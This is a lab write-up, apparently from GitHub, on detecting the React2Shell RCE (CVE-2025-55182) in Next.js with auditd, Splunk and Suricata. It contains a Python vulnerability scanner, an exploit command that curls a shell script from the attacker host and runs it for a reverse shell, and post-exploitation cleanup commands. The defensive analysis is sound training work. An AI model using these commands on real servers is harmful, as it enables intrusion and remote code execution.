# <u>Scenario 6</u>
## [CVE-2025-55182](https://nvd.nist.gov/vuln/detail/CVE-2025-55182) React2Shell
React2Shell RCE flaw in React and Next.js affecting versions 19.0.0, 19.1.0, 19.1.1 and 19.2.0 caused by unsafe deserialization of HTTP request payloads.

[ejpir](https://github.com/ejpir/CVE-2025-55182-research?tab=readme-ov-file) has an excellent write-up of the attack and exploitation flow. 

## <u>Lab Setup</u>:
The lab consists of three virtual machines in the following topology


      ____            ____              ____
     ||__||          ||__||            ||__||  
	 [ -= ]  ----->  [ -= ]    ----->  [ -= ]
     ======          ======            ======
     kali            ubuntu            SIEM
     10.10.230.*     10.10.230.*       192.168.228.*
                     192.168.228.*
                     
                        

For this lab I used [msanft](https://github.com/msanft/CVE-2025-55182)'s test-server and [surajhacx](https://github.com/surajhacx/react2shellpoc)'s proof of concept.

I am demonstrating this RCE by running the POC from my kali machine to the vulnerable server on my ubuntu machine.

## <u>Attack Behavior</u>: 

An attacker conducts recon against the vulnerable server application, then exploits the RCE vulnerability to execute a reverse shell. Initial reconnaissance is conducted on the victim and a suspicious file is left behind.

## <u>Telemetry Sources</u>:
<ol>
	<li> auditd
		<ul>
			<li> EXECVE / PROCTITLE
			<li> PID/PPID
			<li> UID
			<li> Executed Commands / Arguments
		</ul>
	<li> Suricata
		<ul>
			<li> src/dest IP
			<li> dest port
			<li> default alerts
		</ul>	
</ol>


## <u>Attack Simulation</u>: 

Lab Goal: Detect abnormal command line activity and trace back to signs of initial compromise.

The first phase involves the attacker conducting an nmap scan of the network. 

An initial scan 

```
$ nmap 10.10.230.129
```
shows port 3000 open, so we look at it more in depth with

```
$ nmap 10.10.230.129 -A -p 3000
```



We can see that this is a webserver powered by Next.js which is built on top of React. We also see the word turbopack, in the beginning of the HTML document returned by nmap.  This is one of the pieces of software that might be affected by this vulnerability.  The Vary: rsc response to our GET request tell us that React Server Components are enabled. 

[slcyber.io](https://slcyber.io/research-center/high-fidelity-detection-mechanism-for-rsc-next-js-rce-cve-2025-55182-cve-2025-66478/) has an example of a POST request that can indicate whether a host might be vulnerable. If the request returns a 500 status code and has the text 
```
E{"digest"
``` 
the application is likely vulnerable.

I made this scanner based off slcyber.io's POC to confirm our app is vulnerable:

```
#!/usr/bin/env python3
"""
CVE-2025-55182 Scanner 
adapted from
slcyber.io's POC
https://slcyber.io/research-center/high-fidelity-detection-mechanism-for-rsc-next-js-rce-cve-2025-55182-cve-2025-66478/
"""

import sys
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def execute(target_url):
    
    boundary = "----Boundary"
    
    body_parts = [
            f"--{boundary}\r\n",
            'Content-Disposition: form-data; name="1"\r\n\r\n',
            '{}\r\n',
            f"--{boundary}\r\n",
            'Content-Disposition: form-data; name="0"\r\n\r\n',
            f'[\"$1:a:a\"]\r\n',
            f"--{boundary}--\r\n\r\n",
        ]
    
    payload_body = ''.join(body_parts)
    headers = {
            'Next-Action': 'x',
            'Content-Type': f'multipart/form-data; boundary={boundary}',
            }
        
    proxies={"http":"http://127.0.0.1:8080",
                 "https:":"http://127.0.0.1:8080"}

    session = requests.Session()
    response = session.post(
        target_url,
        data=payload_body,
        headers=headers,
        # proxies=proxies,
        allow_redirects=False,
        verify=False
    )
        
    return response
            

def main():
    if len(sys.argv) != 2:
        print("Usage: exploit.py <http://uri:port>")
        exit(1)
    response = execute(sys.argv[1])
    if response.status_code == 500 and 'E{"digest"' in response.text:
        print(response.text)
        print("[+] Likely vulnerable to CVE-2025-55182")

if __name__ == "__main__":
    main()
```

Then I used surajhacx's exploit



```
$ python3 exploit.py -t http://10.10.230.129:3000 -c \ 
"curl 10.10.230.128/shell.py -o /tmp/shell.py; \
python3 /tmp/shell.py"
```
	
to get a reverse shell



Once in, I performed some enumeration and a little cleanup from my attempts to get a shell.

```
$ whoami
$ hostname
$ pwd
$ ls
$ rm /tmp/shell.py
$ rm /tmp/f
```

Finally, I created a suspicious file in the user's home directory:

```
$ touch evilfile.txt
```

## <u>Detection Chain</u>:

For this scenario, our suspicious file was discovered by a user and reported to the security team.  Searching our logs for it we find one event from the auditd log.





Now that we've found our file creation, we can pivot on the auditID:

```
index=main audit\(*:8819\) 
| table _time _raw a0 a1 pid ppid
```




In the SYSCALL message, we find the user id, process id and parent process id of the touch command.  Now we can search for the PID and PPID.

\*note timestamps and IDs/details may change due to resetting the lab; methodology is the same



Here we see our enumeration commands and a number of python commands.  Notice that the dash shell spawned as PID 2430, then our enumeration commands were run with that as the parent process. Pivoting on one of the python auditIDs, we find the PROCTITLE, which is a hex encoded ascii string. 



	
This translates to our python3 /tmp/shell.py command.



Searching for instances of this file, we see that curl was used to download it from an external network into the /tmp directory, and eventually it was removed.


	
Searching for that IP address we notice a number of alerts, including one for React2Shell.  These are based on default suricata rules that we didn't even have to create. 
	

	
I added a custom user agent to my attack to make the traffic easier to spot and reran the exploit.  It triggered five pre-set alerts.

```
headers = {
            'Next-Action': 'x',
            'Content-Type': f'multipart/form-data; boundary={boundary}',
            'User-Agent':'Agent for CVE-2025-55182'
            }
```

Unfortunately, we can't reconstruct the POST request itself from this data, but we can see that an unexpected POST command was made to our test-server port 3000. This may be the best signature we could get if we didn't have the default suricata rules updated.

We *could* enable HTTP body logging in our suricata.yaml file, but this would take up a lot of space on disk if we had any decent amount of traffic to our server. Alternatively, if we had packet captures enabled, we could correlate the flow_id and reconstruct the traffic.  Better practice might be to have application logs capturing the request traffic.

Finally, looking for traffic from our external IP address, we notice single connections to every avaliable port which is indicative of our nmap scan.



## <u>Detection Summary</u>:

From a suspicious file, we were able to identify the process id that created the file, its parent process and other commands executed under that parent process which indicated host enumeration.  We found another suspicious file in the PROCTITLE hex code, and upon searching for it in the logs we found that it was curled from an external network. We see that it was also removed at some point, suggesting the actor was trying to lower their profile to avoid detection. Default Suricata alerts identified the attack method as CVE-2025-55182.  Further examining traffic from the external ip address, we saw what appears to be a port scan from their reconnaissance phase.

|Attack Phase	|Telemetry Source	|Visibility 
| --------------|-------------------|---------- 
|External Recon	(nmap scan)	|Suricata	| Network
|Web App Enumeration|Suricata |	Network (Limited due to TLS)
|Exploit attempt on vulnerable endpoint	|Suricata alerts	| Network
|Tool Staging	|auditd, Suricata	|Host / Network
|Command execution (curl)	|auditd	|Host
|Post-Exploit Recon	|auditd	|Host
|Suspicious File Creation	|auditd	| Host

## <u>MITRE ATT&CK Mapping</u>:

|Tactic	|Technique	|  Evidence|
| ----- | ----------|----------|
|Reconnaissance|	T1046 Network Service Scanning| Suricata detected full port sweep
|Initial Access| T1190 Exploit Public-Facing Application | CVE-2025-55182 React2Shell RCE|
|Persistence|T1105 Ingress Tool Transfer | curl used to download script from external host|
|Execution|T1059.006 Python|Python interpreter spawned to execute staged script|
|Defense Evasion|T1070.004 Indicator Removal| Deleted shell script
| Discovery| T1082 / T1016 System Information/Network Discovery| Execution of whoami, hostname, ip a, arp -a